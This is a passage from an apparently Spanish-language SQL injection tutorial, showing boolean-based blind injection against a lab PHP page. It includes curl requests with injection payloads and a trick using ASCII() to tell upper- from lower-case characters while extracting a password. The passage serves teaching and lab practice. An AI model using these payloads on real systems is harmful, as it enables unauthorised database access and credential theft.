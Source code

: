 
Pero hay un problema, y es que como vemos, los datos no son del todo verdaderos ya que los datos originales tiene algunos carácteres en mayuscula.

```sql
MariaDB [gamesdb]> select * from users where id='3';
+------+-------------+----------+
| id   | username    | password |
+------+-------------+----------+
|    3 | R_J04qu1n_R | R0j0_123 |
+------+-------------+----------+
1 row in set (0,000 sec)
```

Esto se debe a que es case-insensitive (no diferencia entre mayúsculas y minúsculas).

```bash
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or 'A'='a'-- -"; echo
Producto encontrado
```

No obstante si pasamos los carácteres a decimal con la función `ASCII()`, podemos ver que ahora si que puede diferenciarlos.

```bash
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or ASCII('A')=ASCII('a')-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or ASCII('A')=ASCII('A')-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or ASCII('A')=65-- -"; echo
Producto encontrado
```
Por lo tanto, esta sería una manera de eludir, entre comillas, esa restricción que teníamos con las minúsculas y mayúsculas.

![img](/assets/img/sqli/script_boolean4.png)

![img](/assets/img/sqli/script_boolean5.png)